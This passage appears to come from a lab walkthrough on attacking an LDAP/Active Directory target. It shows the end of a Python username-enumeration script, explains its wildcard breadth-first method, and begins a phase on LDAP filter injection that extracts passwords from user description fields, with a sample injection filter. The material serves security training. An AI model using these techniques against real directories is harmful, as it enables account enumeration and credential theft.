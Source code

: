 ```python
            print(f"\n[+] Saved to usernames.txt")
            
            # Performance stats
            print("\n[+] PERFORMANCE STATS:")
            print(f"    Average: {elapsed/len(results):.2f} seconds per user")
            print(f"    Rate: {len(results)/(elapsed/60):.1f} users per minute")
            
        else:
            print("[-] No usernames found")
            
    except KeyboardInterrupt:
        print("\n[!] Interrupted by user")
        if enumerator.valid_users:
            print("[+] Usernames found so far:")
            for username in sorted(enumerator.valid_users):
                print(f"    {username}")
        print(f"[*] Requests made: {enumerator.request_count}")
        
    except Exception as e:
        print(f"[!] Error: {e}")
        import traceback
        traceback.print_exc()

if __name__ == "__main__":
    asyncio.run(main())
```

**Run the enumerator:**
```
python3 ldap_username_enum.py
```

**Learning Point:** The BFS (Breadth-First Search) approach with concurrent testing is efficient because:
1. Each level tests characters in parallel (20 at once)
2. Wildcard matching identifies valid prefixes quickly
3. No wildcard match indicates a complete username

**Expected Output:** 33 valid usernames including `admin`, `auditor`, `ken.w`, `natalie.a`, etc.

---

## Phase 3: LDAP Injection - Password Extraction

### Understanding Description Field Extraction

Active Directory user objects have a `description` field often used by administrators to store notes. In misconfigured environments, passwords are sometimes stored here.

**LDAP Filter Injection:**
```
(sAMAccountName=johnathan.j*)(description=c*)  # Tests if description starts with 'c'
```
